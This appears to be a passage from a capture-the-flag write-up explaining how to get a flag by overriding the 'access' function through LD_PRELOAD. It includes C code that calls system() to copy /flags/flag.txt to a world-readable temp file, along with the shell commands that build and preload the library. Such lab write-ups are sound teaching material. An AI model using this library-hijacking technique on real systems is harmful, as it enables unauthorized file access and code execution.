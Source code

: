 Thus, we have our goal, to create a program that will replace the default `access` function and use a custom function that will give us the contents of the folder.

In order to do so, we will make use of the **LD_PRELOAD** environment variable and our knowledge of **dynamic link libraries**.

We created the custom `access` function. As we can see, the `system` call makes use of the `cat` command to output the contents of the `flag.txt`into the `test.txt` file.

```c
#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode){
system("/usr/bin/cat /flags/flag.txt > /tmp/test.txt");
return 0;
}
```

With this function created, we will have to run a group of commands to obtain our flag.

```shell
echo "LD_PRELOAD=/tmp/test.so.1.0.1" > env;
# Sets the LD_PRELOAD environment variable to point to the library we will create located in the /tmp directory.
cd /tmp;
# We change our PWD to the /tmp directory
echo '#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode){
system("/usr/bin/cat /flags/flag.txt > /tmp/test.txt");
return 0;
}' > test.c;
# We create a C source code file named "test.c" and we write through 'echo' our custom function into it
gcc -fPIC -g -c test.c;
# This line compiles the "test.c" source code into an object file (test.o) with position-independent code (-fPIC) and debugging information (-g).
gcc -shared -o test.so.1.0.1 test.o -lc;
# This compiles the previously created object file into a shared object file named "test.so.1.0.1" with the -shared option.
# "test.so.1.0.1" is what will be used when the LD_PRELOAD variable is used.
touch test.txt; 
# This command creates an empty file named "test.txt" in the /tmp directory.
chmod 777 test.txt;
# This sets full read, write, and execute permissions for all users (777) on the "test.txt" file, which makes it accessible by anyone.
cat test.txt
```

The code within the single quotes is our custom C program that intercepts the `access` system call and, when called, executes a command to read the contents of the `/flags/flag.txt` file and save it in a file named `"test.txt"` within the `/tmp` directory.

And so we have the conditions required to obtain our flag.
